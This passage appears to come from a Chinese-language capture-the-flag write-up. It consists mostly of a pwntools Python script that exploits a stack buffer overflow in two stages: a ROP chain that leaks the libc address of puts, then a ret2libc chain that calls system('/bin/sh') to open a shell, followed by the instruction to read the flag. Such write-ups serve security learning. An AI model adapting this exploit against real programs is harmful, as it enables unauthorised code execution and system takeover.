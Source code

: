 ```python
fill = b'A' * 0x78
rop = pwn.ROP(elf)
rop.call(elf.plt["puts"], [elf.got["puts"]])
rop.call(elf.symbols["main"])
payload = b"".join([fill, rop.chain()])

p.sendline(payload)

# extract leaked puts address
raw_data = p.recvuntil(b'\n')
raw_data = raw_data.strip()  # \
raw_data = raw_data[-6:]     # - skip unnecesary data

leaked_puts = raw_data.ljust(8, b'\x00') # fill missing bytes with zeroes
leaked_puts = pwn.u64(leaked_puts)
pwn.success(f'Leaked puts: {leaked_puts:x}')


pwn.info("Stage 2, ret2shell")
# calculate offset, base address of the libc in the memory
libc.address = leaked_puts - libc.symbols['puts']

# prepare the final payload
rop = pwn.ROP(libc)
rop.call(rop.find_gadget(['ret']))
rop.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])
payload = b"".join([fill, rop.chain()])

p.sendline(payload)
pwn.success("Have fun!")
p.interactive()
```

执行脚本输入 `cat /flag` 即可获得 Flag:
